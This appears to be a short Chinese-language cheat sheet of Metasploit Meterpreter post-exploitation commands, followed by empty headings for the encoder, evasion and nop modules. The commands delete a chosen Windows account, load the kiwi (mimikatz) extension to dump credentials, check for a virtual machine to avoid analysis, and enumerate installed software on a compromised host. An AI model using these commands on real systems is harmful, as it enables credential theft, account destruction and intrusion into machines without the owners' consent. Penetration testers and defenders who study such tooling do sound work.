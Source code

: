 ##### 0x01 删除指定win账号

```sh
#删除指定账号 
run post/windows/manage/delete_user USERNAME=admin
```

##### 0x02 猕猴桃

```sh
# load mimikatz
load kiwi
```

##### 0x03 检测是否虚拟机

```sh
run checkvm
```

##### 0x04 获取软件安装信息

```sh
run post/windows/gather/enum_applications
```

<br/>

#### 编码器模块(encoders)

***

<br/>

#### 躲避模块(evasion)

***

<br/>

#### 空指令模块(nops)

***
